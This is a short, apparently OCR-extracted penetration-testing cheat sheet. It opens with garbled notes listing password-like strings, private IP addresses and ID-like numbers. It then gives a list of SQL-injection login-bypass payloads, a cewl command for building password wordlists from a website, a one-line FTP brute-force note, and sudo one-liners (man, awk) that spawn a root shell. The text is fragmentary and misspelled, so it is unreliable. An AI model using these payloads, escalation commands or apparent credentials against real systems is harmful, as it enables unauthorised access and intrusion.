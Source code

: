 ```
H.M-৭
Secret123

H.M-২০
IP 172.16.0.40

H.M-৪
pass- test
4700056

H.M-৫ 450989878899 

H.M-১২ F/N 201010988818

H.M-১৯ Android
 IP 172.16.0.38
   1876890
```

### FTP Burteforce:
pass wordlist in the windows system. After the login FTP server

### SQL payloads
```
admin' --
admin' #
admin'/*
' or 1=1--
' or 1=1#
' or 1=1/*
') or '1'='1--
') or ('1'='1—
```
### Making custom wordlist from website keywords:
   $ cewl example.com -m 5 -w words.txt
   
   m= pass lenght
   w= output file
   
### Root privilege Escln
  ```
  $ sudo man man
  $ !/bin/bash
  $ sudo awk 'BEGIN {system("/bin/bash")}'
```
